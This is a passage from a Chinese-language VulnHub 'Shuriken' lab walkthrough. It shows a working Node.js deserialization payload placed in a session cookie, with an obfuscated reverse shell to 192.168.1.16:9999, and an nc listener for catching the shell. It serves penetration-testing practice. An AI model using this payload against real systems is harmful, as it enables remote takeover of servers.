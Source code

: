 ![](D:\stu\vulnhub\shuriken靶场\pic-2\13.jpg)

然后根据文档中的步骤，添加一段代码，也就是加上，这里是模板，把上面的编码数据包裹起来，主要 就是 `()`，记得在使用时，在`burpsuit`中进行`base64`编码。

但是这里需要注意，这里的语句全部在一行内构造的，不要回车造成多行

```js
{"rce":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,57,50,46,49,54,56,46,49,46,49,54,34,59,10,80,79,82,84,61,34,57,57,57,57,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```

当然，还是需要根据自己的构造在`kali`中来使用`nc`进行监听

```shell
nc -lvnp 9999
```

然后使用`burp`抓取数据包，修改`cookie:session=[上面构造的数据]`

![](D:\stu\vulnhub\shuriken靶场\pic-2\14.jpg)

或者在浏览器中更改`cookie`为上面的编码数据也行，然后刷新浏览器页面

![](D:\stu\vulnhub\shuriken靶场\pic-2\15.jpg)

这时候，可以在终端看到已经反弹成功

![](D:\stu\vulnhub\shuriken靶场\pic-2\16.jpg)

使用`dpkg -l | grep python`查看靶机安装哪些`python`版本，然后对应版本进行获取交互式界面
